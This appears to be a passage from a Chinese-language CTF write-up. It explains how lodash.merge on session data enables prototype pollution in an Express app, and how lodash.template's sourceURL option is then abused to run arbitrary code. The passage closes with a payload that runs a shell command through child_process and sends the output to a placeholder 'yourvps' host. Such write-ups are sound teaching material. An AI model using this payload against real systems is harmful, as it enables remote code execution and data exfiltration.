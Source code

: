核心功能代码：

```javascript
app.all('/', (req, res) => {
    let data = req.session.data || {language: [], category: []}
    if (req.method == 'POST') {
        data = lodash.merge(data, req.body)
        req.session.data = data
    }
    
    res.render('index', {
        language: data.language, 
        category: data.category
    })
})
```

会将post的数据和之前的数据合并，存放到session中。经过测试发现这里的merge存在原型链污染问题，如何利用呢？这里还使用了lodash的template功能来实现

```javascript
app.engine('ejs', function (filePath, options, callback) { // define the template engine
    fs.readFile(filePath, (err, content) => {
        if (err) return callback(new Error(err))
        let compiled = lodash.template(content)
        let rendered = compiled({...options})

        return callback(null, rendered)
    })
})
```

查看[loadsh.template/index.js](https://github.com/lodash/lodash/blob/a039483886093788e7021131a9cba6ffc53f45ec/lodash.template/index.js#L1089)寻找可利用的点，这里调用了sourceURL来构造Function

```javascript
 var result = attempt(function() {
    return Function(importsKeys, sourceURL + 'return ' + source)
      .apply(undefined, importsValues);
  });
//sourceURL definition
var sourceURL = 'sourceURL' in options ? '//# sourceURL=' + options.sourceURL + '\n' : '';
```

可以看到这里我们可以控制sourceURL，就可以控制Function的构造，从而执行任意代码。

> 我们在寻找可利用点的时候，一般在template这种功能中，可利用点较多，因为会不可避免出现执行代码拼接。

```javascript
//# sourceURL= test\r\n[CODE]\n
```

这里我们无法在Function中直接引入require，require() 并不是一个全局的函数，所以我们先引入require

```javascript
var require = global.require || global.process.mainModule.constructor._load;
var result = require('child_process').execSync('cat /flag_thepr0t0js').toString();
//发送结果
var req = require('http').request(`http://yourvps/${result}`);req.end();
```
